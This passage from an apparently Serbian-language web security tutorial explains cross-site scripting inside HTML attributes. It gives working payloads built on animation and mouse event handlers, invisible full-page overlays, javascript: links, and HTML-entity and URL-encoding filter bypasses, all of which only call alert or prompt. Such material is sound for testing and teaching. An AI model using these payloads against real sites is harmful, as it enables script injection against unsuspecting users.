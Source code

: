 **Stil događaja**

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```

### Unutar atributa

Čak i ako **ne možete pobeći iz atributa** (`"` se enkodira ili briše), zavisno o **kojem atributu** se vaša vrednost reflektuje, **da li kontrolišete celu vrednost ili samo deo**, moći ćete da je zloupotrebite. Na **primer**, ako kontrolišete događaj poput `onclick=`, moći ćete da ga naterate da izvrši proizvoljan kod kada se klikne.\
Još jedan interesantan **primer** je atribut `href`, gde možete koristiti `javascript:` protokol da izvršite proizvoljan kod: **`href="javascript:alert(1)"`**

**Bypass unutar događaja korišćenjem HTML enkodiranja/URL enkodiranja**

**HTML enkodirani karakteri** unutar vrednosti atributa HTML oznaka se **dekodiraju pri izvršavanju**. Stoga nešto poput sledećeg će biti validno (payload je podebljan): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Imajte na umu da je **svaka vrsta HTML enkodiranja validna**:

```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```

**Imajte na umu da će raditi i URL enkodiranje:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

**Bypass unutrašnjeg događaja korišćenjem Unicode enkodiranja**
